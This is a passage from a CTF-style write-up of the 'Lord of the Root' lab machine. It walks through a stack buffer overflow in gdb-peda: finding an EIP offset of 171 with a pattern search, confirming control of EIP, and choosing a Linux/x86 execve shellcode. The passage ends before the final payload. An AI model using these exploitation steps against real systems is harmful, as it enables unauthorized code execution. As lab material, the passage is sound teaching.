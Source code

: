 {% img center /images/pentest/lordoftheroot/peda.png 'peda' 'segfault in peda' %}

I wanted to show a screenshot instead of the code, so you can also see the colors that make the output much more readable. You can see that EIP has been overwritten with the value 0x57414174. I searched for it in the pattern:

``` 
gdb-peda$ pattern search 0x57414174
Registers contain pattern buffer:
EBP+0 found at offset: 167
EIP+0 found at offset: 171
Registers point to pattern buffer:
[ESP] --> offset 175 - size ~25
Pattern buffer found at:
0xbffff571 : offset    0 - size  200 ($sp + -0xaf [-44 dwords])
0xbffff7f8 : offset    0 - size  200 ($sp + 0x1d8 [118 dwords])
References to pattern buffer found at:
0xbffff550 : 0xbffff571 ($sp + -0xd0 [-52 dwords])
0xbffff560 : 0xbffff571 ($sp + -0xc0 [-48 dwords])
0xbffff564 : 0xbffff7f8 ($sp + -0xbc [-47 dwords])
0xbffff6b8 : 0xbffff7f8 ($sp + 0x98 [38 dwords])
```

The reported offset is 171. Verified it really quick:

``` 
gdb-peda$ r $(python -c 'print "A" * 171 + "B" * 4 + "C" * 4')
[...]
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff640 ("CCCC")
EIP: 0x42424242 ('BBBB')
```

Alright, now we need some shellcode. I decided to use Peda for all the exploitation phases, so I could showcase more of its functionality. First, I looked at the options:

``` 
gdb-peda$ peda help shellcode
Generate or download common shellcodes.
Usage:
    shellcode generate [arch/]platform type [port] [host]
    shellcode search keyword (use % for any character wildcard)
    shellcode display shellcodeId (shellcodeId as appears in search results)
    shellcode zsc [generate customize shellcode]

    For generate option:
        default port for bindport shellcode: 16706 (0x4142)
        default host/port for connect back shellcode: 127.127.127.127/16706
        supported arch: x86
```

Next I searched for some execve shellcode, and settled for the below:

``` 
[841]	Linux/x86 - Tiny Execve sh Shellcode - 21 bytes
```
